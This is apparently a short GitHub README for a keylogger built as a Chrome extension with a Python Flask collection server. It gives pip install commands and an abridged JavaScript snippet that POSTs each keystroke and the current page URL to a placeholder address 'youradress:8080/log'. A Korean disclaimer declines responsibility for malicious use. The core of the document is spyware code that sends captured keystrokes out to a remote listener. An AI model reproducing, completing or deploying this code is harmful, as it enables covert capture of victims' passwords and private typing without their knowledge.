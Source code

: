 #  Keylogger Chrome Extensions 

### Python flask server

`pip install flask`

`pip install flask_cors`

### Main js code

```js
  ...
  xhr.open('POST', 'https://youradress:8080/log');
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  xhr.send(JSON.stringify({
    key: event.key,
    window: window.location.href,
    ...
 ```
 # warning
 
 1.**악의적으로 사용할시 책임지지 않습니다.**
 
 2.네트워크를 동일한 네트워크를 사용해야 키 기록을 받을수 있습니다.
 
 
 
 
